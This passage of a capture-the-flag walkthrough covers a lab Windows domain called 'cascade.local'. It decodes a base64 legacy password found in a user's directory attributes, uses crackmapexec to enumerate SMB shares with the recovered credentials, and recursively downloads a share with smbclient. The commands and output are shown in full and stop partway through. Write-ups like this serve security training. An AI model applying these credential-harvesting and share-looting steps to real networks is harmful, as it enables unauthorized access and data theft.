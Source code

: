 Looking through the output we find the following extra line belonging to user `Ryan Thompson`.

```bash
cascadeLegacyPwd: clk0bjVldmE=
```

It looks like a base64 encoded string so let's decode it.

```bash
$ echo 'clk0bjVldmE=' | base64 -d
rY4n5eva  
```

We got `Ryan`'s password.

Tried to connect via `winrm` using this password but it didn't work.

### SMB

Let's see if we can list shares of SMB

```shell
$ crackmapexec smb cascade.local -u r.thompson -p "rY4n5eva" --shares                                                                                1 ⨯
SMB         cascade.local   445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         cascade.local   445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         cascade.local   445    CASC-DC1         [+] Enumerated shares
SMB         cascade.local   445    CASC-DC1         Share           Permissions     Remark
SMB         cascade.local   445    CASC-DC1         -----           -----------     ------
SMB         cascade.local   445    CASC-DC1         ADMIN$                          Remote Admin
SMB         cascade.local   445    CASC-DC1         Audit$                          
SMB         cascade.local   445    CASC-DC1         C$                              Default share
SMB         cascade.local   445    CASC-DC1         Data            READ            
SMB         cascade.local   445    CASC-DC1         IPC$                            Remote IPC
SMB         cascade.local   445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         cascade.local   445    CASC-DC1         print$          READ            Printer Drivers
SMB         cascade.local   445    CASC-DC1         SYSVOL          READ            Logon server share 
```

There is a share called `DATA` we have read permission over it.

Let's connect to the share

```bash
$ smbclient //cascade.local/Data -U r.thompson rY4n5eva                                                                                            130 ⨯
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 04:27:34 2020
  ..                                  D        0  Mon Jan 27 04:27:34 2020
  Contractors                         D        0  Mon Jan 13 02:45:11 2020
  Finance                             D        0  Mon Jan 13 02:45:06 2020
  IT                                  D        0  Tue Jan 28 19:04:51 2020
  Production                          D        0  Mon Jan 13 02:45:18 2020
  Temps                               D        0  Mon Jan 13 02:45:15 2020

                6553343 blocks of size 4096. 1625424 blocks available
smb: \> mget *
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
```